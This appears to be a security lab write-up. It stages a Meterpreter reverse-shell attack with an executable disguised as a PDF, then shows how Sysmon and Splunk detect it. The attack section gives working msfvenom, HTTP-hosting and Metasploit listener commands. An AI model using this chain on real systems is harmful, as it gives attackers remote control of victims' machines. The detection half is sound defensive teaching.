

# 01 - Meterpreter Reverse TCP Shell

## Overview
This documents a simulated attack using a malicious executable disguised as a PDF file. The payload was generated with msfvenom, hosted on a Python HTTP server, and executed on the target Windows 10 VM. A Meterpreter session was established back to the attacker's Kali Linux machine. All activity was detected and logged using Sysmon and Splunk.

---

## Lab Environment
| Role | OS | IP |
|------|----|----|
| Attacker | Kali Linux | 192.168.56.104 |
| Target | Windows 10 | 192.168.56.105 |

**Tools Used:** msfvenom, Metasploit (multi/handler), Python HTTP server, Sysmon, Splunk

---

## Attack Steps

### 1. Generate the Payload
On Kali, generate a malicious Windows executable disguised as a PDF:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.104 LPORT=4444 -f exe -o resume4.pdf.exe
```
The `.pdf.exe` naming is a social engineering technique — it makes the file appear to be a PDF to a casual observer.

### 2. Host the Payload
Serve the file over HTTP using Python:
```bash
python3 -m http.server 9999
```
The payload is now accessible at `http://192.168.56.104:9999/resume4.pdf.exe`    (192.168.56.104 is kali IP)

### 3. Set Up the Listener
In a separate terminal, launch Metasploit and configure the handler:
```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.56.104
set lport 4444
exploit
```

### 4. Execute the Payload on the Target
On the Windows 10 VM, download and run `resume4.pdf.exe` from the browser or file explorer. Once executed, a Meterpreter session opens on the attacker's machine.

---

## Detection

All three stages of the attack were captured in Splunk via Sysmon.

### Event ID 1 - Payload Execution
**Query:**
```
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 "resume4.pdf.exe"
```
**What it shows:**
- `resume4.pdf.exe` executed from `C:\Users\chan\Downloads\`
- Parent process: `explorer.exe` - the user double-clicked the file
- FileVersion, Description, Company are all blank - a major red flag for a legitimate executable
- SHA256 hash can be submitted to VirusTotal for further analysis


### Event ID 1 - Meterpreter Spawns cmd.exe
**Query:**
```
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 "resume4.pdf.exe"
```
**What it shows:**
- `cmd.exe` spawned with parent process `resume4.pdf.exe`
- A legitimate PDF file should never spawn a command shell
- Suspicious parent/child process relationship is a key detection indicator



### Event ID 3 - Outbound Network Connection
**Query:**
```
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3 DestinationPort=4444
```
**What it shows:**
- `resume4.pdf.exe` initiates a TCP connection to `192.168.56.104` on port `4444`
- Port 4444 is the default Metasploit listener port - commonly flagged in threat intel
- Source IP: `192.168.56.105` (Windows VM) → Destination IP: `192.168.56.104` (Kali)


---

## Key Indicators of Compromise (IOCs)
| Indicator | Value |
|-----------|-------|
| Malicious file | `resume4.pdf.exe` |
| File path | `C:\Users\chan\Downloads\resume4.pdf.exe` |
| Destination IP | 192.168.56.104 |
| Destination Port | 4444 |
| Suspicious process relationship | `resume4.pdf.exe` → `cmd.exe` |

---

## Detection Summary
Sysmon captured the full attack chain:
1. User executed a disguised malicious file from the Downloads folder
2. The file spawned `cmd.exe` - abnormal behavior for a document
3. An outbound connection was made to the attacker's machine on port 4444

A defender should alert on any executable with a double extension (`.pdf.exe`), missing file metadata, and outbound connections on non-standard ports from user directories.
